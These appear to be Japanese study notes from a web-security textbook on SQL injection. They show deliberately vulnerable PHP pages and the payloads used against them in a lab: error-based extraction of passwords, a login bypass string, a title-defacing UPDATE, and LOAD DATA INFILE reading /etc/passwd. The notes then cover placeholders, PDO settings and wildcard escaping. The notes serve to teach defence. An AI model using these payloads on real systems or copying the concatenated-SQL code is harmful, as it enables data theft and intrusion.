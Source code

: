 # SQL呼び出しに伴う脆弱性

## 4.4.1 SQLインジェクション

### 攻撃手法と影響

44-001.php

```html
<?php
  header('Content-Type: text/html; charset=UTF-8');
  $author = $_GET['author'];
  try {
    $db = new PDO("mysql:host=127.0.0.1;dbname=wasbook", "root", "wasbook");
    $db->query("Set names utf8");
    // $db->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_WARNING);
    $db->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);
    $sql = "SELECT * FROM books WHERE author ='$author' ORDER BY id";
    $ps = $db->query($sql);
?>
<html>
<body>
<table border=1>
<tr>
<th>蔵書ID</th>
<th>タイトル</th>
<th>著者名</th>
<th>出版社</th>
<th>出版年月</th>
<th>価格</th>
</tr>
<?php
    while ($row = $ps->fetch()){
      echo "<tr>\n";
      for ($col = 0; $col < 6; $col++) {
        echo "<td>" . $row[$col] . "</td>\n";
      }
      echo "</tr>\n";
    }
  } catch (PDOException $e) {
    echo "Error : " . $e->getMessage() . "\n";
  }
?>
</table>
</body>
</html>
```

* 攻撃コード

  ```http
  http://example.jp/44/44-001.php?author=%27+AND+EXTRACTVALUE(0,(
  SELECT+CONCAT(%27$%27,id,%27:%27,pwd)+FROM+users+LIMIT+0,1
  ))+--+
  ```

  ![image-20220720213003530](img/image-20220720213003530.png)

  →ユーザ情報とパスワードが入手されている

  　エラーメッセージには、内部的なエラー内容は表示させないようにすべき

#### UNION SELECTを用いた情報漏洩

#### SQLインジェクションによる認証回避

44-002.html

```html
<html>
<head><title>ログインしてください</title></head>
<body>
<form action="44-003.php" method="POST">
ユーザ名<input type="text" name="ID"><br>
パスワード<input type="text" name="PWD"><br>
<input type="submit" value="ログイン">
</form>
</body>
</html>
```

44-003.php

```html
<?php
  session_start();
  header('Content-Type: text/html; charset=UTF-8');
  $id = @$_POST['ID'];   // ユーザID
  $pwd = @$_POST['PWD']; // パスワード
  // データベースに接続
  $db = new PDO("mysql:host=127.0.0.1;dbname=wasbook", "wasbook", "wasbook");
  // SQLの組み立て
  $sql = "SELECT * FROM users WHERE id ='$id' AND PWD = '$pwd'";
  $ps = $db->query($sql);   // クエリー実行
?>
<html>
<body>
<?php
  if ($ps->rowCount() > 0) { // SELECTした行が存在する場合ログイン成功
    $_SESSION['id'] = $id;
    echo 'ログイン成功です';
  } else {
    echo 'ログイン失敗です';
  }
  // pg_close($con);
?>
</body>
</html>
```

パスワードへの入力値

```
' or 'a'='a
```

![image-20220720214126493](img/image-20220720214126493.png)

#### SQLインジェクション攻撃によるデータ改善

攻撃URL

```http
http://example.jp/44/44-001.php?author=%27;
UPDATE+books+SET+TITLE%3D%27%3Ci%3Ecracked!%3C/i%3E%27+WHERE+id%3D%271001%27
--+
```

![image-20220720214416729](img/image-20220720214416729.png)

```html
<i>cracked!</i>
```

上記がWEB上で解釈されてしまっている。<script>タブや<iflame>タブを仕様することで悪意のあるコードを生成されてしまう可能性がある。



#### その他の攻撃

データベースエンジンによっては、SQLインジェクション攻撃によって、以下が可能になる場合がある。

* OSコマンドの実行
* ファイルの読み出し
* ファイルの書き出し
* HTTPリクエストによりほかのサーバーを攻撃

ファイルの読み出しについてみていく

* 攻撃コード

  ```
  http://example.jp/44/44-001.php?author=%27;LOAD+DATA+INFILE+%27/etc/passwd%27+INTO+TABLE+books+(title)--+
  ```

  ```
  LOAD DATA INFILE '/etc/passwd' INTO TABLE books (title)
  ```

  * LOAD DATA INFILE文はMySQLの拡張機能で、ファイルをテーブルに読み込む。

  * /etc/passwdがbooksテーブルのtitle列に読み込まれる

  * 以下のURLで閲覧する

    ```html
    http://example.jp/44/44-001.php?author=%27OR+author+IS+NULL--+
    ```

    ![image-20220720215248492](img/image-20220720215248492.png)

### 脆弱性が生まれる原因

#### 文字列リテラルの問題

### 対策

* (a)プレースホルダによりSQLを組み立てる
* (b)アプリケーション側でSQLを組み立てる際に、リテラルを正しく構成するなどSQL文が変更されないようにする

(b)は完全な対応が難しいため(a)で対応する。

44-004.php

```html
<?php
  header('Content-Type: text/html; charset=UTF-8');
  $author = $_GET['author'];
  try {
    $opt = array(PDO::ATTR_ERRMODE => PDO::ERRMODE_EXCEPTION,
                 PDO::MYSQL_ATTR_MULTI_STATEMENTS => false,
                 PDO::ATTR_EMULATE_PREPARES => false);
//    if (defined('PDO::MYSQL_ATTR_MULTI_STATEMENTS')) {
//      $opt[PDO::MYSQL_ATTR_MULTI_STATEMENTS] = false;
//    }

    $db = new PDO("mysql:host=127.0.0.1;dbname=wasbook;charset=utf8", "wasbook", "wasbook", $opt);
    $sql = "SELECT * FROM books WHERE author = ? ORDER BY id";
    $ps = $db->prepare($sql);
    $ps->bindValue(1, $author, PDO::PARAM_STR);
    $ps->execute();
?>
<html>
<body>
<table border=1>
<tr>
<th>蔵書ID</th>
<th>タイトル</th>
<th>著者名</th>
<th>出版社</th>
<th>出版年月</th>
<th>価格</th>
</tr>
<?php
    while ($row = $ps->fetch()) {
      echo "<tr>\n";
      for ($col = 0; $col < 6; $col++) {
        echo "<td>" . $row[$col] . "</td>\n";
      }
      echo "</tr>\n";
    }
  } catch (PDOException $e) {
    error_log("Query Error : " . $e->getMessage());
    die("ただいまサイトが大変混雑しています。しばらく経ってからご利用ください");
  }
?>
</table>
</body>
</html>
```

* bindValueメソッドで実際の値を指定している。プレースホルダに値を割り当てることを**バインド**と呼ぶ。

#### PDOの安全な利用方法

PDO(PHP Data Objects)のコンストラクタの第4引数は、PDOにオプション指定する。

```php
try {
    $opt = array(PDO::ATTR_ERRMODE => PDO::ERRMODE_EXCEPTION,
                 PDO::MYSQL_ATTR_MULTI_STATEMENTS => false,
                 PDO::ATTR_EMULATE_PREPARES => false);

    $db = new PDO("mysql:host=127.0.0.1;dbname=wasbook;charset=utf8", "wasbook", "wasbook", $opt);
```

■PDOのオプション

| オプション                       | 意味                     | デフォルト値                                  |
| -------------------------------- | ------------------------ | --------------------------------------------- |
| PDO::ATTR_ERRMODE                | PDOのエラーモード        | PDO::ERRMODE_SILENT<br />(単にエラー値を返す) |
| PDO::MYSQL_ATTR_MULTI_STATEMENTS | 複文の実行を許可する     | true                                          |
| PDO::ATTR_EMULATE_PREPARES       | 動的プレースホルダを使用 | true                                          |

* 複文とは複数のSQL文をセミコロンで区切って一度に指定実行すること

### 静的プレースホルダと動的プレースホルダの違い

* 静的プレースホルダ

  値のバインドをデータベースエンジンで行う。

  プレースホルダの状態でSQL文がコンパイルされるため、後からSQL文が変更される可能性が原理的にあり得ない。

* 動的プレースホルダ

  動的プレースホルダは、SQLを呼び出すアプリケーション側のライブラリ内で、パラメータをバインドしてからデータベースエンジンに送る方式。バインドにあたってリテラルは適切に構成されるため、処理系にバグがなければSQLインジェクションは発生しない

原理的にSQLインジェクションの可能性がないという点で静的プレースホルダの方が優れている。動的プレースホルダの不適切な実装が原因でSQLインジェクション脆弱性となった例にはJVN#59748723がある。

#### LIKE述語とワイルドカード

LIKE述語の検索パターン指定では、

* 「_」は任意の1文字にマッチ
* 「%」はゼロ文字以上の任意の文字列

にマッチする。

「_」「%」を検索する場合は、エスケープ処理が必要となる。

```SQL
WHERE name LIKE '%#%%' ESCAPE '#'
```

ワイルドカードをエスケープするPHPの関数サンプル

```php
function escape_wildcard($s) {
	return mb_ereg_replace('([_%#])', '#\1', $s);
}	
```

[]：カッコ内に含まれる1文字にマッチする
#\1：対象の文字の先頭に"#\"を付与するという意味だと思う....(ちょっと自信なし)

その他のデータベースエンジンではエスケープするべき文字に違いがある

ワイルドカードのエスケープが必要な文字

| データベース  | エスケープ対象文字 | 補足                                                |
| ------------- | ------------------ | --------------------------------------------------- |
| MySQL         | _%                 |                                                     |
| PostgreSQL    | _%                 |                                                     |
| Oracle        | _%＿％             | 全角文字もエスケープが必要                          |
| MS SQL Server | _%[                | [a-z]のような正規表現風のワイルドカードが使えるため |
| IBM DB2       | _%＿％             | 全角文字もエスケープが必要                          |

### SQLインジェクションの保険的対策

* 詳細なエラーメッセージの抑止
* 入力値の妥当性検証
* データベースの権限設定